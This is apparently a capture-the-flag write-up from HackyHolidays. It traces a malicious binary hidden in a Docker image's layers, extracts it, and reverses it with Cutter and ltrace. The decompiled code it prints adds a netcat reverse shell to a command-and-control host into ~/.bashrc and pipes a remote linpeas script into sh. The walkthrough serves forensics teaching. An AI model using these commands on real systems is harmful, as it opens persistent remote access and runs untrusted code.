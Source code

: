 ```yaml
---
title: HackyHolidays - Protect the supply - Writeup
tags: hackyholidays malware linux forensics reversing
---
```


# Description

This challenge was in both the forensics and reversing categories

![image](https://user-images.githubusercontent.com/84577967/178866898-e4fcedc6-2d0d-4bc2-a2de-8237f9e290a8.png)

# Solution

The challenge is a container that can be pulled using the command described in the challenge description.

```bash
docker run -ti hackazon/micro_ghost /bin/sh
```

As a fan of `bash` shell, I had to change the `/bin/sh` to `/bin/bash`

```bash
docker run -ti hackazon/micro_ghost /bin/bash
```

![image](https://user-images.githubusercontent.com/84577967/178867304-81b759ea-a401-424c-9980-758741ec271b.png)

After we pull up the full docker image, we can investigate the command history

```bash
docker history IMAGEID
```

Of course we have to change the `IMAGEID` value and to retrieve the challenge image id we can use this simple command

```bash
docker image ls | grep hackazon/micro_ghost
```

![image](https://user-images.githubusercontent.com/84577967/178867433-0514a809-4f6c-4ce0-8fe8-4a81a7187c24.png)


```bash
docker history fc6642d32b03
```

![image](https://user-images.githubusercontent.com/84577967/178867679-d7af4be8-2293-480f-9441-5cdf8b75a792.png)

The output of the command may not be complete, but we can add additional arguments and use the `jq` tool to beautify the output.

```bash
docker history --format "{{json .}}" fc6642d32b03 --no-trunc |jq .
```

![image](https://user-images.githubusercontent.com/84577967/178867846-7fa527fb-30c7-40c9-b470-66625e2d9e6a.png)

The full output:

```json
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:23:06+01:00",
  "CreatedBy": "/bin/sh -c rm /lib/x86_64-linux-gnu/libc.so.evil.6",
  "CreatedSince": "7 days ago",
  "ID": "sha256:fc6642d32b03e5c96e96299b64ca355bcfea30ef6ad4dec984f2601129210bbb",
  "Size": "0B"
}
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:23:04+01:00",
  "CreatedBy": "/bin/sh -c /lib/x86_64-linux-gnu/libc.so.evil.6",
  "CreatedSince": "7 days ago",
  "ID": "<missing>",
  "Size": "0B"
}
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:23:03+01:00",
  "CreatedBy": "/bin/sh -c mv /opt/libc.so.6 /opt/libc.so.evil.6",
  "CreatedSince": "7 days ago",
  "ID": "<missing>",
  "Size": "1.9MB"
}
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:23:02+01:00",
  "CreatedBy": "/bin/sh -c chmod +x /lib/x86_64-linux-gnu/libc.so.evil.6",
  "CreatedSince": "7 days ago",
  "ID": "<missing>",
  "Size": "14.4kB"
}
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:23:00+01:00",
  "CreatedBy": "/bin/sh -c #(nop) COPY file:46b15dd2b1c1b2421f8f66c0e0b1adbb2be1fa29bdfb24df21ab41a4393cc4ca in /opt/ld-linux-x86-64.so.2 ",
  "CreatedSince": "7 days ago",
  "ID": "<missing>",
  "Size": "204kB"
}
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:23:00+01:00",
  "CreatedBy": "/bin/sh -c #(nop) COPY file:5f853a35eb22d7cd0b3789fdf55937ebf492d63386894ed02ab7d6fa7717ff30 in /opt/libc.so.6 ",
  "CreatedSince": "7 days ago",
  "ID": "<missing>",
  "Size": "1.9MB"
}
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:22:59+01:00",
  "CreatedBy": "/bin/sh -c #(nop) COPY file:1d19734b949df42e538d10ea3e6c9eb33e3f2064be2540a446c095ee007af323 in /lib/x86_64-linux-gnu/libc.so.evil.6 ",
  "CreatedSince": "7 days ago",
  "ID": "<missing>",
  "Size": "14.4kB"
}
{
  "Comment": "",
  "CreatedAt": "2022-06-06T23:21:26+01:00",
  "CreatedBy": "/bin/sh -c #(nop)  CMD [\"bash\"]",
  "CreatedSince": "5 weeks ago",
  "ID": "<missing>",
  "Size": "0B"
}
{
  "Comment": "",
  "CreatedAt": "2022-06-06T23:21:25+01:00",
  "CreatedBy": "/bin/sh -c #(nop) ADD file:11157b07dde10107f3f6f2b892c869ea83868475d5825167b5f466a7e410eb05 in / ",
  "CreatedSince": "5 weeks ago",
  "ID": "<missing>",
  "Size": "77.8MB"
}
```

What took my attention is the third value from bottom, where a weird file was copied to the container `/lib/x86_64-linux-gnu/libc.so.evil.6`

```json
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:22:59+01:00",
  "CreatedBy": "/bin/sh -c #(nop) COPY file:1d19734b949df42e538d10ea3e6c9eb33e3f2064be2540a446c095ee007af323 in /lib/x86_64-linux-gnu/libc.so.evil.6 ",
  "CreatedSince": "7 days ago",
  "ID": "<missing>",
  "Size": "14.4kB"
}
```

But it seems like it was removed 

![image](https://user-images.githubusercontent.com/84577967/178868216-05856585-5204-49e1-b0b6-25c658d0ef37.png)

And this what we can notice in the last command

```json
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:23:06+01:00",
  "CreatedBy": "/bin/sh -c rm /lib/x86_64-linux-gnu/libc.so.evil.6",
  "CreatedSince": "7 days ago",
  "ID": "sha256:fc6642d32b03e5c96e96299b64ca355bcfea30ef6ad4dec984f2601129210bbb",
  "Size": "0B"
}
```

And just seconds before that it was executed

```json
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:23:04+01:00",
  "CreatedBy": "/bin/sh -c /lib/x86_64-linux-gnu/libc.so.evil.6",
  "CreatedSince": "7 days ago",
  "ID": "<missing>",
  "Size": "0B"
}
```

In order to find the original file, we need to examine the preceding layers of the Docker image. One way to do this is by saving the image to a tar archive, which allows us to easily examine the individual layers of the image.

```bash
docker save fc6642d32b03 > fc6642d32b03.tar
```

After extracting the tar file, we can locate a file called `manifest.json`, which contains information about all the layers of the image. This file can be useful in our investigation.

![image](https://user-images.githubusercontent.com/84577967/178868876-4b131905-8e26-46e2-8055-edfeb0d9ec21.png)

The file was copied in the third operation, and the second operation was just a CMD command. This means that the binary file we are looking for may be located in the second layer of the image `104337d79b4c7be52c587e29595ddf09df584bd991875e10392a0fc1fd901b57/layer.tar`.

![image](https://user-images.githubusercontent.com/84577967/178869275-0e071309-fcf8-4e51-8d5a-32c55f1db72b.png)

Let's open it in `Cutter` to disassemble the binary and gain a deeper understanding of what it does

![image](https://user-images.githubusercontent.com/84577967/178871965-9a8941ef-aae7-44da-b837-de160fdc5ccd.png)

Upon examining the functions of the binary, it appears that it may be a type of malware.

![image](https://user-images.githubusercontent.com/84577967/178872535-5ff482ec-95c6-49f5-bc99-07121fce5e9a.png)

![image](https://user-images.githubusercontent.com/84577967/178872988-1924c75e-1aaf-40ee-b768-3c17ebcca50f.png)

![image](https://user-images.githubusercontent.com/84577967/178877053-a128d4f5-b6a5-4757-a4da-5f4703b9ca3c.png)

In the screenshot below, the third function appears to be a loop that retrieves its values from the main function.

![image](https://user-images.githubusercontent.com/84577967/178877935-a1227b25-ee6f-4778-9827-9a577b954532.png)

In order to safely run the binary and see what it does, we can copy it to a `Ubuntu` container. This will allow us to examine the malware's behavior without exposing our host system to any potential risks.

![image](https://user-images.githubusercontent.com/84577967/178881692-9f8b49c1-4d1a-4f69-8370-181bcd329351.png)

Based on the functions we have analyzed, it seems that the malware performs the actions that we have identified.

```C
void fcn.00001208(void)
{
    system("apt install netcat");
    system("apt install wget");
    system("echo \'nc c2.maldomain.del 4444 -e /bin/bash >> ~/.bashrc\'");
    system("curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh >lin.log");
    return;
}
```

The third function with the loop was not initially visible to us. 
However, using the ltrace tool has allowed us to see this function and gain a better understanding of the malware's behavior.

![image](https://user-images.githubusercontent.com/84577967/178882405-f8c61a1f-ee66-4cc7-9a92-9fa9c36113c3.png)

By default, ltrace limits the output of strings to 32 characters. However, we can use additional arguments to change this behavior `-s "number of strings"` and view longer strings if needed.

```bash
ltrace -s 200 ./libc.so.evil.6
```

# Flag

We were able to successfully retrieve the flag for the challenge.

![image](https://user-images.githubusercontent.com/84577967/178882767-4f9706a0-ff9b-41ac-a9f5-add41e77b7a8.png)

